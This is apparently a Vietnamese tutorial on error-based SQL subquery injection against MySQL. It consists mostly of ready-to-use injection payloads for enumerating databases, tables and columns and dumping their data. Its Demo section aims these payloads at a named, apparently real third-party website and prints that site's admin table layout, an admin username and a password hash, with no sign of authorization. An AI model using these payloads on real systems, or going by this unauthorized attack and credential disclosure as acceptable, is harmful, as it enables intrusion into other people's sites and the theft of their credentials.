



### Người thực hiện: Trần Ngọc Nam
### Thời gian: 23/04/2022, 25/04/2022

# Mục lục:
1. [Error Based Injection SubQuery Injection](#1)
2. [Demo](#2)

## Error Based Injection SubQuery Injection:<a name="1"></a>

- Thông thường, lỗi tiêm sub query thường được sử dụng khi XPATH bị hạn chế bởi phiên bản SQL hoặc đã bị chặn bởi website.
- Đầu tiên, ta sẽ tiến hành kiểm tra xem trang web bằng một vài kí tự có thể tạo ra lỗi như <code>/</code>, <code>"</code>, <code>'</code>.
  ```php
  www.vuln-web.com/photo.php?id=1/
  No Error
  www.vuln-web.com/photo.php?id=1"
  No Error
  www.vuln-web.com/photo.php?id=1'
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
  ```
- Ta có thể nhận thấy trang web trả về lỗi <code>''1'' LIMIT 0,1'</code>.
- Điều đó có nghĩa là <code>'1'' LIMIT 0,1</code> là phần truy vấn. Đầu vào <code>1'</code> đã tạo ra lỗi.
- Từ đó, ta có thể giả định truy vấn tạo ra lỗi có dạng:
  ```php
  select field1,field2 from table1 where id='<our_input_here>' LIMIT 0,1;
  ```
- Tiếp theo, ta sẽ thử comment phần còn lại với <code>--</code>, <code>#</code>, <code>/*</code>, <code>-- -</code>.
  ```php
  www.vuln-web.com/photo.php?id=1'--
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 
  www.vuln-web.com/photo.php?id=1'#
  You have an error in your SQL syntax; check the manual that corresponds to your  MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
  www.vuln-web.com/photo.php?id=1'/*
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '/*' LIMIT 0,1' at line 1
  www.vuln-web.com/photo.php?id=1'-- -
  No Error
  ```
- Trong trường hợp này, ta nhận thấy comment hoạt động là <code>-- -</code>. Ta sẽ kết hợp toán tử <code>and</code> để tiến hành trích xuất dữ liệu từ trang web.
- Vì vậy, truy vấn có thể gây ra lỗi lúc này có dạng:
  ```php
  select field1,field2 from table1 where id='1' and true-- -' LIMIT 0,1;
  ```
- Tuy nhiên, những gì nằm phía sau <code>-- -</code> sẽ được tính là comment. Nên câu truy vấn chính thức sẽ có dạng:
  ```php
  select field1,field2 from table1 where id='1' and true;
  ```
- Câu truy vấn ở trên vì 2 vế đều đúng nên trang vẫn trả về kết quả bình thường. Lần này, ta sẽ tiêm sai:
  ```php
  select field1,field2 from table1 where id='1' and false;
  ```
- Lần này, web sẽ load không bình thường. Nó sẽ không thông qua bất kỳ lỗi nào nhưng bạn sẽ không nhận được web bình thường như trước đó. Điều này chứng tỏ lỗi tiêm đã hoạt động.
  ```php
  www.vuln-web.com/photo.php?id=1' and true-- -
  Normal Page
  www.vuln-web.com/photo.php?id=1' and false-- -
  Page din't Load As normally it do as the query dint returned anything.
  ```
- Bây giờ, ta sẽ tiến hành check số lượng cột:
  ```php
  www.vuln-web.com/photo.php?id=1' order by 1-- -
  No Error
  www.vuln-web.com/photo.php?id=1' order by 1,2-- -
  No Error
  www.vuln-web.com/photo.php?id=1' order by 1,2,3-- -
  No Error
  www.vuln-web.com/photo.php?id=1' order by 1,2,3,4-- -
  Error : Unknown column '4' in 'order clause'
  ```
- Ta có thể nhận số cột là 3. Tiếp theo, ta sẽ lấy dữ liệu với:
  ```php
  www.vuln-web.com/photo.php?id=1' and (select 1 from (Select count(*),Concat((select database()),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
  ```
- Để lấy được tên các table, ta dùng:
  ```php
  www.vuln-web.com/photo.php?id=1' and (select 1 from (Select count(*),Concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
  ```
- Muốn lấy thông tin các cột của table, ta dùng:
  ```php
  www.vuln-web.com/photo.php?id=1' and (select 1 from (Select count(*),Concat((select column_name from information_schema.columns where table_schema=database() and table_name='<table_name_here>' limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
  ```
- Cuối cùng, ta có thể lấy dữ liễu từ các cột đã check được:
  ```php
  www.vuln-web.com/photo.php?id=1' and (select 1 from (Select count(*),Concat((select concat(<column_1>,<column_2>) from <table_name_here> limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
  ```

## Demo:<a name="2"></a>

- Đối tượng thử nghiệm lần này vẫn sẽ là <code>http://aminter.co.th/index.php</code>.
- Vì đã có kinh nghiệm ở tab extractvalue(), nên lần này ta sẽ tiến hành nhanh gọn hơn.
- Để kiểm tra được version, ta dùng <code>and (select 1 from (Select count(*),Concat((select version()),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20version()),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Ta có thể thấy database đang sử dụng phiên bản <code>5.5.44-log</code>.
- Tiếp theo, ta có thể dùng <code>and (select 1 from (Select count(*),Concat((select database()),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code> để lấy được tên database.
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20database()),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Tương tự, ta sẽ lần lượt lấy ra tên của các bảng với <code>and (select 1 from (Select count(*),Concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code> bằng cách tăng dần limit lên.
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Sau khi check lần lượt, ta có được danh sách table:
  | No. | Table name        |
  | --- | ----------------- |
  | 1   | ck_agent          |
  | 2   | ck_banner         |
  | 3   | ck_brand          |
  | 4   | ck_catalogue      |
  | 5   | ck_contact        |
  | 6   | ck_figure         |
  | 7   | ck_group          |
  | 8   | ck_member         |
  | 9   | ck_menu           |
  | 10  | ck_menufront      |
  | 11  | ck_news           |
  | 12  | ck_picnews        |
  | 13  | ck_product        |
  | 14  | ck_productbrand   |
  | 15  | ck_productpicture |
  | 16  | ck_productsub     |
  | 17  | ck_producttype    |
  | 18  | ck_subfigure      |
  | 19  | ck_subgroup       |
  | 20  | ck_user_admin     |
  | 21  | ck_welcome        |
- Tiếp theo, ta cần lấy tên các cột <code>and (select 1 from (Select count(*),Concat((select column_name from information_schema.columns where table_schema=database() and table_name='ck_user_admin' limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20column_name%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27ck_user_admin%27%20limit%200,1),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Tương tự như table, ta có danh sách table:
  | No. | Column name        |
  | --- | ------------------ |
  | 1   | admin_id           |
  | 2   | admin_username     |
  | 3   | admin_pass         |
  | 4   | admin_name         |
  | 5   | admin_surname      |
  | 6   | admin_email        |
  | 7   | admin_tel          |
  | 8   | admin_active       |
  | 9   | admin_ip_login     |
  | 10  | admin_admin_create |
  | 11  | admin_admin_update |
  | 12  | admin_date_create  |
  | 13  | admin_date_update  |
  | 14  | admin_date_login   |
- Ta dùng <code>and (select 1 from (Select count(*),Concat((select concat(admin_username) from ck_user_admin limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code> để lấy thông tin username.
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20concat(admin_username)%20from%20ck_user_admin%20limit%200,1),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Và cuối cùng, ta sẽ lấy mật khẩu với <code>and (select 1 from (Select count(*),Concat((select concat(admin_pass) from ck_user_admin limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -</code>
  ```php
  http://aminter.co.th/product2.php?id=3%20and%20(select%201%20from%20(Select%20count(*),Concat((select%20concat(admin_pass)%20from%20ck_user_admin%20limit%200,1),0x3a,floor(rand(0)*2))y%20from%20information_schema.tables%20group%20by%20y)%20x)--%20-
  ```
  
- Như vậy, ta đã có thông tin username: <code>hiddenwiki</code> và password: <code>cccc56525135d9fe92937ba95ea051</code>